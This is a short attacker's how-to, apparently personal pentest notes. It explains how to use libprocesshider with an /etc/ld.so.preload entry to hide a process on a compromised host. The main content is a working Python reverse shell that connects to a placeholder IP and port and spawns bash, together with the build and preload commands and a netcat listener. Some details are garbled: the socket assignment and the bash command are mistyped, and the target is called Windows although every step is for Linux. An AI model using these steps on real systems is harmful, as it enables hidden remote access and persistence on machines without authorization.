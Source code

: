 ----

<h2>General</h2>

GOAL ---> Hide process from `ps aux`

Libprocesshider is a library that allows software developers to hide the details of a process from the operating system. It provides an API for hiding the process name and arguments, as well as for hiding the presence of the process from process management utilities. The library is useful for hiding the details of malware or other types of malicious software, as well as for protecting proprietary software from reverse engineering.

Important
- Can only hide one process at the time

---

<h2>Commands</h2>

The  reposity need to be cloned on the target (windows machine)

Download the reposity (Target)
```
git clone https://github.com/gianlucaborello/libprocesshider.git
```

Create reverse shell and compile the code (Target) 
```
# Create a rever shell (reverse_shell.py)
nano reverse_shell.py
	#!/usr/bin/python3 
	from os import dup2  
	from subprocess import run
	import socket  
	s-socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("IP",PORT))  
	dup2(s.fileno(),0)  
	dup2(s.fileno(),1)
	dup2(s.fileno(),2)  
	run([*/bin/bash","-i*])

# Give chmod permission
chmod +x reverse_shell.py

# Edit processhider.c
nano processhider.c
- Change the script name of the python code for your evil code
- Save

# Compile the code in the direcotry
USER@sid:~/libprocesshider$ make
'---> This will create libprocesshider.so

# Copy the file in the right folder
cp libprocesshider.so /usr/local/lib/

# Load it with the global dynamic linker
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

Launch the reverse_shell
```
./reverse_shell.py
```

Netcat Lisener (Attacking)
```
nc -lvnp PORT
```

The process should now be hiden

---

<h2>More Information</h2>

More information ---> https://github.com/gianlucaborello/libprocesshider

<iframe src="https://github.com/gianlucaborello/libprocesshider" width="100%" height="1300"></iframe>